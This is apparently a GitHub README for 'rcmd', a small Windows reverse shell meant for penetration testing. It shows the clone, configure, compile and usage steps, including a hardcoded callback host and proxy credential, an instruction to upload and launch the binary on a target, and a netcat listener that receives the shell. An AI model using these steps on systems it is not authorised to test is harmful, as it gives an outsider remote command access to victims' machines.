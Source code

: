# rcmd (Reverse CMD)

Minimal Windows reverse shell with proxy support and not dependencies. Useful in pentesting. 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

Windows C compiler (or cross comp). 

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/rcmd.git
```

Edit configuration: 

```
...
// proxy config
#define RHOST "10.0.0.1"   
#define RPORT 8080
#define AUTH "TVlET01cdXNyMToxMjM0"

// remote connect 
#define HOST "1.2.3.4"
#define PORT 8443
...
```

Compile with MinGW:

```
C:\> gcc -Wall -O2 rcmd.c -o rcmd -lwsock32
```

### Usage 

Upload rcmd and launch. Now, simply, run in your linux box: 

```
$ nc -nlvp 8443 
C:\> ...
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details




